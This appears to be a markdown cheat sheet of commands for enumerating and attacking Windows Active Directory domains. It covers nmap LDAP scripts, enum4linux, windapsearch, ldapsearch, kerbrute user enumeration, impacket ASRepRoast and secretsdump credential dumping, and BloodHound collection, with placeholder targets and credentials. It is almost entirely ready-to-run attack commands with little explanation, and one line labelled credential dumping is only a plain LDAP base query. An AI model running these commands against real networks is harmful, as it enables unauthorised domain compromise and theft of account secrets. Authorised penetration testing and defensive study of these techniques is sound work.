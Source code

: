 
## AD MindMap
https://www.xmind.net/m/5dypm8/

## Tools
### nmap
- enum ldap properties
```bash
nmap -n -sV --script "ldap* and not brute" -p 389 $ip -Pn
```

### enum4linux
- list share, get domain name etc..
```bash
enum4linux -a $ip
```
- enumerate users
```bash
enum4linux -U $ip | grep 'user:'
```

### windapsearch
- enumerate users, domain name
```bash
python3 windapsearch.py --dc-ip $ip --users --full > wdapusers.txt
grep sAMAccountName wdapusers.txt | cut -d " " -f 2 > users.txt
```

### ldapsearch
- enumerate ldap properties
```bash
ldapsearch -x -h $ip -s base
```
- enumerate users
```bash
ldapsearch -h $ip -p 389 -x -b "dc=domain,dc=local"
```
- credential dumping
```bash
ldapsearch -LLL -x -H ldap://$ip -b "dc=domain,dc=local" -s base '(objectclass=*)'
```

### kerbrute
```sh
kerbrute userenum --dc $ip -d $dom /path/to/userlist
```

### impacket
- ASRepRoast
```sh
/usr/local/bin/GetNPUsers.py domain.tld/ -dc-ip domaincontroller -usersfile validuserlist
```
- Dump Secret
```sh
/usr/local/bin/secretsdump.py -dc-ip 0.0.0.0 domain.tld/username:password@0.0.0.0
```

### bloodhound
```bash
pip3 install bloodhound
python3 -m bloodhound -d domain.tld -u username -p "password" -gc dc.domain.tld -c all -ns 0.0.0.0
```

